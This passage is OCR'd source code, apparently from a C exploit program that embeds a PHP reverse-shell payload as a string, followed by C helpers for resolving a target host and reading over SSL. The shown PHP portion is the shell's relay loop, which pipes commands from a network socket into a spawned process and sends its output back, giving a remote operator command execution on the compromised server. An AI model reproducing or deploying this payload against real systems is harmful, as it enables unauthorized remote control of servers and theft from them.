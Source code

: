     >     "  }\n"
    >     "  $read_a = array($sock, $pipes[1], $pipes[2]);\n"
    >     "  $num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);\n"
    >     "  if (in_array($sock, $read_a)) {\n"
    >     "      if ($debug) printit(\"SOCK READ\");\n"
    >     "      $input = fread($sock, $chunk_size);\n"
    >     "      if ($debug) printit(\"SOCK: $input\");\n"
    >     "      fwrite($pipes[0], $input);\n"
    >     "  }\n"
    >     "  if (in_array($pipes[1], $read_a)) {\n"
    >     "      if ($debug) printit(\"STDOUT READ\");\n"
    >     "      $input = fread($pipes[1], $chunk_size);\n"
    >     "      if ($debug) printit(\"STDOUT: $input\");\n"
    >     "      fwrite($sock, $input);\n"
    >     "  }\n"
    >     "  if (in_array($pipes[2], $read_a)) {\n"
    >     "      if ($debug) printit(\"STDERR READ\");\n"
    >     "      $input = fread($pipes[2], $chunk_size);\n"
    >     "      if ($debug) printit(\"STDERR: $input\");\n"
    >     "      fwrite($sock, $input);\n"
    >     "  }\n"
    >     "}\n"
    >     "\n"
    >     "fclose($sock);\n"
    >     "fclose($pipes[0]);\n"
    >     "fclose($pipes[1]);\n"
    >     "fclose($pipes[2]);\n"
    >     "proc_close($process);\n"
    >     "function printit ($string) {\n"
    >     "  if (!$daemon) {\n"
    >     "      print \"$string\n\";\n"
    >     "  }\n"
    >     "}\n"
    >     "exit(1);\n"
    >     "?>";
    >     
    >     struct sockaddr_in *gethostbyname_(char *hostname, unsigned short port)
    >     {
    >      struct hostent *he;
    >      struct sockaddr_in server, *servercopy;
    >     
    >      if ((he=gethostbyname(hostname)) == NULL) {
    >       printf("Hostname cannot be resolved\n");
    >       exit(255);
    >      }
    >     
    >      servercopy = malloc(sizeof(struct sockaddr_in));
    >      if (!servercopy) {
    >         printf("malloc error (1)\n");
    >         exit(255);
    >      }
    >      memset(&server, '\0', sizeof(struct sockaddr_in));
    >      memcpy(&server.sin_addr, he->h_addr_list[0],  he->h_length);
    >      server.sin_family = AF_INET;
    >      server.sin_port = htons(port);
    >      memcpy(servercopy, &server, sizeof(struct sockaddr_in));
    >      return servercopy;
    >     }
    >     
    >     char *sslread(connection *c)
    >     {
    >       char *rc = NULL;
    >       int received, count = 0, count2=0;
    >       char ch;